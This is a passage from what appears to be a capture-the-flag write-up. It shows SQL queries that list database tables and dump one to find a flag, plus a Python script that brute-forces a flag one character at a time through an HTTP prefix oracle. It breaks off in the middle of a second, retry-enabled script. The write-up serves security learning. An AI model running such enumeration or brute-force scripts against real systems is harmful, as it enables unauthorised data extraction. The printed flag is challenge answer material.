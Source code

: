 2. Replaying the request
    - Used an HTTP client (Burp Suite, Postman, or browser DevTools) to send the same POST request and confirm the backend returned JSON data.

3. Enumerating database tables
    - Modified the query to:
    ```pgsql
    SELECT table_name FROM information_schema.tables
    ```
    - Received a list of tables, including a suspicious one: abandoned_planets.

4. Dumping the target table
    - Queried:
    ```sql
    SELECT * FROM abandoned_planets
    ```
    - The description field of the first record contained the flag.

---

#### Challenge: Buster

**Points:** 50
**Flag:** `flag{deca3b9a1e42d25c508f78a5674f4f5e}`

**Steps Taken:**

1. Navigated to `https://buster.ctf.zone/` and tested partial paths like `/f`, `/fl`, `/fla`.
2. Observed HTTP 200 responses for correct prefixes → identified prefix oracle behavior.
3. Noted flag format `flag{[0-9a-f]{32}}` and created character set `0123456789abcdef}`.
4. Discovered `{` and `}` must be URL-encoded (`%7B` and `%7D`).
5. Wrote initial Python script to brute force one character at a time using GET requests:
    ```python
    import requests
    import urllib.parse

    BASE = "https://buster.ctf.zone/"
    charset = "0123456789abcdef}"
    flag = "flag{"
    attempts = 0

    print("[*] Starting brute force...")

    while not flag.endswith("}"):
        for ch in charset:
            test = flag + ch
            attempts += 1
            encoded_path = urllib.parse.quote(test)
            r = requests.get(BASE + encoded_path, allow_redirects=False)
            if r.status_code == 200:
                flag = test
                print(f"[+] Found next char: {ch} -> {flag} (Attempts: {attempts})")
                break

    print(f"[!] Final flag: {flag} (Total Attempts: {attempts})")
    ```
6. Implemented logging to print each found character and total attempts.
7. Encountered server instability (TLS resets and timeouts) → enhanced script with retries, backoff, and progress file to resume from last successful character:
    ```python
    import os
    import time
    import random
    import urllib.parse
    import requests
    from requests.adapters import HTTPAdapter
    from urllib3.util.retry import Retry
